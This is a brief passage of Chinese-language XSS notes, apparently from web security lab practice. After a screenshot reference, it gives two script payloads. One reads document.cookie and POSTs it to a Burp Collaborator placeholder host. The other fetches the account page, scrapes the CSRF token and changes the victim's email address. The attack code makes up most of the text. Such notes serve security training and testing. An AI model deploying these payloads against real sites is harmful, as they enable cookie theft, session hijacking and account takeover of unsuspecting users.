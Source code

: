 目标点击后，弹出  cookie

<img src=".\图片\Snipaste_2023-07-02_13-08-04.png" alt="Snipaste_2023-07-02_13-08-04" style="zoom:67%;" />

## 其它

1、偷 cookie

```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

2、配合 csrf

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
